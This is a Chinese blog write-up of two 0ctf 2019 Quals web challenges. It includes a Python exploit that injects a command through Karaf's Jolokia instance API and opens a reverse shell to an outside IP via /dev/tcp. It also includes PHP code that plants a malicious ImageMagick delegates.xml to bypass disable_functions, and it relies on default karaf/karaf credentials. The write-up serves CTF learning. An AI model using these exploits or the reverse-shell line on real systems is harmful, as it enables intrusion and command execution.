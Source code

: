 ```yaml
---
title: "0ctf 2019 Quals Web writeup"
date: 2019-03-26T16:04:55+08:00
categories: ["CTF", "Security"]
tags: ["web", "ctf"]
---
```


本次比赛两个web题都是[RicterZ](https://ricterz.me/)大佬出的，膜一波Orz

## Ghost Pepper

本题首先通过观察401的响应包找到HTTP Basic认证的用户名karaf：

![401.png](/images/posts/0ctf-2019-Quals-Web-writeup/401.png)

然后用密码karaf即可绕过认证。接下来通过目录爆破找到目录`http://karaf:karaf@192.168.2.88:31337/jolokia/`。到这里我们可以发现这是一个裸的jolokia控制台。

jolokia是一个Java系统管理解决方案。其采用轻量级的Json格式传输数据，可以方便地管理系统中的Servlet。所以当应用暴露了jolokia目录的时候，基本上算是直接暴露出来一个webshell。我们可以通过访问`http://karaf:karaf@192.168.2.88:31337/jolokia/list`来查看可用的api，来寻找利用点。在本题中有三种解题方式：

### 解法 1

通过karaf下bundle模块远程安装一个我们自己写的恶意bundle，反弹一个shell到自己的服务器上。参考<https://github.com/p4-team/ctf/tree/master/2019-03-23-0ctf-quals/web_osgi>。但是由于我不熟悉Java编译出来的东西始终装不上Orz，等弄好了把整个项目代码扔github上面去= =

### 解法 2

第二种方法应该算是最省事的方法了，即通过karaf下feature模块安装一个webconsole：

![webconsole](/images/posts/0ctf-2019-Quals-Web-writeup/webconsole.png)

之后我们访问`http://192.168.2.88:31337/system/console/bundles`就可以进入到webconsole的管理界面。在管理界面点Main -> Goto即可进入console。

![goto](/images/posts/0ctf-2019-Quals-Web-writeup/goto.png)

在console中执行`cat /flag`即可得到flag：

![console](/images/posts/0ctf-2019-Quals-Web-writeup/console.png)

### 解法 3

使用karaf中的Instance模块，在安装一个新的instance的时候进行instance的命令行参数注入。我们看karaf源码：<https://github.com/apache/karaf>。在`org/apache/karaf/instance/core/InstancesMBean.java`文件中定义了MBean的接口：

```java
// Operations
void startInstance(String name) throws MBeanException;
void startInstance(String name, String opts) throws MBeanException;
void startInstance(String name, String opts, boolean wait, boolean debug) throws MBeanException;
```

我们找startInstance方法的实现，在文件`org/apache/karaf/instance/command/StartCommand.java`中其调用了Instance的Start方法：

![startCommand](/images/posts/0ctf-2019-Quals-Web-writeup/startCommand.png)

跟进Instance类的start方法，其调用了InstanceService中的startInstance方法：

![instanceImpl](/images/posts/0ctf-2019-Quals-Web-writeup/instanceImpl.png)

继续跟进`org/apache/karaf/instance/core/internal/InstanceServiceImpl.java`，其调用了doStart方法：

![startInstance](/images/posts/0ctf-2019-Quals-Web-writeup/startInstance.png)

继续看doStart方法，其中有明显的命令拼接：

![doStart](/images/posts/0ctf-2019-Quals-Web-writeup/doStart.png)

在此处，我们发现javaOpt是我们可控的参数。在`InstancesMBeanImpl`中我们发现createInstance参数有一个就是javaOpt：

![mbean](/images/posts/0ctf-2019-Quals-Web-writeup/mbean.png)

于是我们给出攻击思路：

1. 创建一个新的Instance，在其javaOpt字段进行参数注入
2. 开启这个新的Instance执行我们的命令
3. 停止Instance
4. 删除Instance

最后我们给出exp：

```python
import requests
from pprint import pprint

url = "http://111.186.63.207:31337/jolokia/"

create_instance = {
    "type": "EXEC",
    "mbean":"org.apache.karaf:name=root,type=instance",
    "operation": "createInstance(java.lang.String,int,int,int,java.lang.String,java.lang.String,java.lang.String,java.lang.String)",
    "arguments": [
        "n0b0dy", # name
        22, # ssh port
        1099, # rmiRegistryPort
        44444, # rmiServerPort
        "/opt/opendaylight-0.9.2/instances/n0b0dy", # location
        "|| bash -i >& /dev/tcp/149.28.194.202/33333 0>&1 #", # javaOpts
        None, # features
        None # featureURLs
    ]
}

start_instance = {
    "type": "EXEC",
    "mbean":"org.apache.karaf:name=root,type=instance",
    "operation": "startInstance(java.lang.String,java.lang.String)",
    "arguments": [
        "n0b0dy", # name
        "", # opts
    ]
}


stop_instance = {
    "type": "EXEC",
    "mbean":"org.apache.karaf:name=root,type=instance",
    "operation": "stopInstance",
    "arguments": [
        "n0b0dy", # name
    ]
}


destory_instance = {
    "type": "EXEC",
    "mbean":"org.apache.karaf:name=root,type=instance",
    "operation": "destroyInstance",
    "arguments": [
        "n0b0dy", # name
    ]
}

headers = {
    "Authorization": "Basic a2FyYWY6a2FyYWY="
}

exp = [create_instance, start_instance, stop_instance, destory_instance]
for e in exp:
    rep = requests.post(url, json=e, headers=headers)
    pprint(rep.json())
```

## Wallbreaker

这个题目提出了一种新的用imagick来绕过`disable_function`的方法。根据[文档](https://imagemagick.org/script/resources.php)描述，`delegate.xml`用于指定转换特定文件用的命令：

> Associate delegate programs with certain image formats. ImageMagick relies on a number of delegate programs to support certain image formats such as ufraw-batch to read raw camera formats or Ghostscript to read Postscript images. Use this configuration file to map an input or output format to an external delegate program.

文档中还给出了一个[示例](https://imagemagick.org/source/delegates.xml)：

```xml
<delegatemap xmlns="">
<delegate xmlns="" decode="bpg" command=""bpgdec" -b 16 -o "%o.png" "%i"; /usr/bin/mv "%o.png" "%o""/>
...
</delegatemap>
```

我们可以看到`delegates.xml`中定义了很多命令执行的函数。那么我们可以自己定义`delegates.xml`文件吗？答案是可以的要不然这道题就没法做了2333

Imagick有一些环境变量比较重要，比如`HOME`变量。根据文档的描述，这个变量是用来寻找config文件的跟路径：

> Set path to search for configuration files in $HOME/.config/ImageMagick if the directory exists.

而Imagick的配置文件涉及到两个目录，即`$HOME/.config/ImageMagick`和`$HOME/.magick`。Imagick会在这两个目录下寻找delegates.xml文件，并进行解析。在delegates.xml中，我们可以对某个特定的文件后缀（此处为`foo`）指定其解析的方式。根据题目描述，我们将这个命令设置为需要执行的`/readflag`：

```xml
<delegatemap><delegate decode="foo" command="/readflag > /tmp//flag"/></delegatemap>
```

思路清晰以后，我们可以来写代码。首先在open_basedir的限制条件中找一个可以写的目录用来放我们的配置文件。题目的环境是tmp下面的一个根据ip生成的文件夹，在我们的环境中我们使用`/tmp`作为示例。同时我们打开error的显示便于调试：

```php
$home = '/tmp/';
ini_set('display_errors', 1);
```

接下来我们将HOME环境变量设置为`tmp`并向`$HOME`下面写入我们的`delegates.xml`文件：

```php
putenv("HOME=$home/");
mkdir("$home/.config/");
mkdir("$home/.config/ImageMagick");
file_put_contents("$home/.config/ImageMagick/delegates.xml",
    "<delegatemap><delegate decode=\"foo\" command=\"/readflag > $home/flag\"/></delegatemap>");
```

在delegate文件中，我们将`/readflag`的执行结果写入到`$HOME/flag`文件中，最后我们将结果读出来：

```php
touch("$home/test.foo");
try {
  $i = new Imagick("$home/test.foo");
  $i->writeImage("$home/test.png");
} catch(Exception $e) {
  var_dump($e);
}
var_dump(file_get_contents("$home/flag"));
```

经过这一波操作我们可以最终得到flag：

![result](/images/posts/0ctf-2019-Quals-Web-writeup/wallbreaker.png)